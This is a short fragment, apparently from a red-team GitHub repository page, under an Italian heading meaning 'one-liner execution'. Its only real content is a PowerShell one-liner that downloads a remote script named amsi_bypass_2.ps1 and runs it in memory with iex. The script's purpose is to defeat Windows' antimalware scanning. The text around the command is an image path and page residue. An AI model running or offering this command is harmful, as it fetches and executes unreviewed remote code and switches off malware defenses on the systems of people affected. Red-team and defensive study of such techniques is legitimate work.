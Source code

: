 ::Esecuzione one-liner
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12;iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/dottorvenom/RedTeam/main/amsi_bypass_2.ps1');